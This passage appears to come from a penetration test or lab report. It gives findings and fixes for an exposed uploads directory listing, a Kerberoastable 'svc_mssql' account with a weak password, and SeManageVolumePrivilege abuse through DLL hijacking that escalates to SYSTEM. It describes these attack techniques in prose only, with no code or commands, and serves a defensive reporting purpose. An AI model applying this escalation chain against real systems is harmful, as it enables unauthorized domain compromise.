Directory listing is enabled on the web application's `uploads` directory, allowing unauthenticated users to view the names of uploaded files.

#### Impact
An attacker can enumerate uploaded files and access their contents if they are publicly accessible. This can expose sensitive information and help attackers locate uploaded malicious files, even if their original filenames have been changed.

#### Remediation
Disable directory listing on the web server and restrict access to uploaded files where appropriate. Store sensitive uploads outside the web root and ensure that uploaded files are accessible only to authorized users.
### Weak Service Account Password

#### Description
The `svc_mssql` domain account has a Service Principal Name (SPN) and uses a weak password that can be recovered through offline Kerberoasting attacks.

#### Impact
An attacker with valid domain credentials can request a Kerberos service ticket for the account and crack its password offline, potentially compromising the service account and gaining access to additional domain resources.

#### Remediation
Enforce long, randomly generated passwords for service accounts and consider using Group Managed Service Accounts (gMSAs) where supported. Regularly review service account configurations and avoid weak or commonly used passwords.

### Excessive SeManageVolumePrivilege

#### Description
The `svc_mssql` account has `SeManageVolumePrivilege`, which can be abused to modify access permissions on sensitive system directories. This allows an attacker to perform DLL hijacking by replacing DLL files loaded by privileged Windows processes.

#### Impact
An attacker who compromises the service account can abuse this privilege to execute malicious code under a more privileged account. In this case, DLL hijacking allows access as `NT AUTHORITY\NETWORK SERVICE`, whose `SeImpersonatePrivilege` can be further abused to obtain `NT AUTHORITY\SYSTEM` privileges.

#### Remediation
Remove `SeManageVolumePrivilege` from accounts that do not require it. Apply the principle of least privilege to service accounts and restrict modification permissions on sensitive Windows directories to prevent unauthorized DLL replacement.
